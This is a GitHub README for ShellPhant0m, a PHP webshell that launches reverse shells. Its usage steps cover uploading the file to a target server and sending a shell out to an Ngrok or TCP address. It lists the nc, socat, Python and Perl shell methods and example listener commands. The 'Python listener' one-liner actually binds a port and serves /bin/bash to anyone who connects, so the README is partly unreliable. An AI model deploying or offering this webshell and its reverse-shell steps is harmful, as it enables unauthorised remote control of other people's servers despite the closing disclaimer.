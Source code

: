 # ShellPhant0m

**ShellPhant0m** is a lightweight PHP webshell with a built-in reverse shell launcher. It provides an interactive interface to trigger reverse connections using multiple methods and shell types.

---

<img width="770" height="431" alt="image" src="https://github.com/user-attachments/assets/833e2bcc-0ac5-4008-8010-07be8cf050d8" />

## Features

- Single-file PHP shell for remote deployment
- Multiple reverse shell methods:
  - Netcat (nc)
  - Socat
  - Python
  - Perl
  - PHP
- Configurable shell selection (/bin/bash, /bin/sh, /sbin/sh)
- Dark theme interface with copy-to-clipboard functionality
- Dynamic port configuration for listener commands
- Accepts Ngrok or TCP address directly
- Auto-parses the host and port

## Requirements

- PHP-enabled web server (e.g., Apache, Nginx with PHP)
- A public listener (Ngrok, VPS, port-forwarded server)
- Target system with required tools (nc, socat, python, perl, or php)

## Usage

1. Upload `ShellPhant0m.php` to the target server
2. Access the shell via browser
3. Choose connection method from the dropdown menu
4. Select preferred shell type (/bin/bash, /bin/sh, /sbin/sh)
5. Paste your Ngrok or TCP address (e.g., `0.tcp.ap.ngrok.io:12345`)
6. Click **Launch Shell** to trigger the reverse shell

### Example Ngrok Setup

```bash
ngrok tcp 4444
```

### Example Listener Commands

All listener commands are provided in the interface with copy buttons. Default examples:

**Netcat:**
```bash
nc -lvnp 4444
```

**Socat:**
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**Python:**
```bash
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((\"0.0.0.0\",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"
```

## Disclaimer

This tool is intended for **educational** and **authorized security testing** purposes only. Do not use it on systems you do not own or have explicit permission to test.

---
Created by: [AndKnownMaly](https://github.com/andknownmaly)
